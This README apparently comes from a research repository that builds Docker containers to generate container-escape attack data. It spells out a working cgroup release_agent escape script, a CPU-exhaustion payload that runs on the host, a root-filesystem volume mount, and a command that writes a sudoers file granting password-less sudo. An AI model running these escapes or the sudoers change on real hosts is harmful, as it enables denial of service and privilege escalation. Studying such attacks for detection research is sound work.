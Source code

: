 # Escape Containers

The directory has the containers that are used to launch a container escape and associated attack.  It also has other background containers.  The container escapes were derived from the following.

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/


## Denial of Service Container

Get the latest ubuntu image

```bash
docker pull ubuntu
```

Using original ubuntu, install nano, add escape.sh, then commit

```bash
docker run --privileged --name=ESCAPE_A --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

From within container

```bash
apt-get update
apt-get install nano
nano escape.sh
#!/usr/bin/bash
...
(save)
chmod +x escape.sh
```

In another host terminal, saved current ubuntu to ubuntu_escape image.  The ubuntu_escape will have the escape.sh

```bash
docker commit ESCAPE_A ubuntu_escape
```

You can now exit the ubuntu container.

From a host terminal, start the ubuntu_escape container with reduced security.

```bash
docker run --name=ESCAPE_A --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```

Finally, from other host terminal, execute escape.sh in ubuntu_escape.  This launches the attack (you can use top to see the increased CPU usage).  Note that [scenarioDos.py](./src/scenarioDos.py) uses this to launch the attack.
```bash
docker exec -it ESCAPE_A /escape.sh
```

### Escape

In the container, create escape.sh file with following

```bash
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### Attack

In the container, create stress.txt file with following

```bash
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

## Privilege Escalation Container

Create container from alpine image.

### Escape

The privilege escape is really accomplished by the mounting of a volume during container building.

```
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

Execute the following command to build container.

```bash
docker build -t priv-container .
```

You can execute the following command to run the container.  Note that this is done in the [scenarioPrivesc.py](../src/scenarioPrivesc.py).

```bash
docker run --name ESCAPE_B -v /:/privesc -it priv-container /bin/sh
```

### Attack

The attack assumes a user testuer aleady exists that has password requires sudo privilege (the attack changes this to password-less).  From within the container, the following is executed.

```bash
echo "testuser ALL=(ALL) NOPASSWD: ALL" > /privesc/etc/sudoers.d/010_testuser-nopasswd
```


## Prometheus-Grafana Container

The prometheus-grafana container is take from awesome-compose and can be started and stopped with the following.  Note that this is done in the [scenarioGrafana.py](../src/scenarioGrafana.py).

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml up --no-start
sudo docker-compose -f prometheus-grafana/docker-compose.yml start
```

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml stop
sudo docker-compose -f prometheus-grafana/docker-compose.yml rm -f
```

## Internet of Things Container

The IoT container used for the datasets is described here.  We do not provide the container because it exceeded github's maximum file size.

The IoT container is based on the ubuntu image.  It was then configured to setup the tunslip interface to communicate with an IEEE 802.15.4 wireless dongle over /tty/ACM0.  The dongle is programmed with the contiki-ng rpl-border-router example using TSCH.

The remote endpoints are nRF52480 boards programmed with the contiki-ng rpl-udp example using TSCH.  The endpoints take a temperature sensor reading every five seconds and send to the UDP server running in the Docker IoT container.

This container setup works for both the Umbrella edge device (built-in dongle) and the Linux Raspian VM (USB attached dongle).
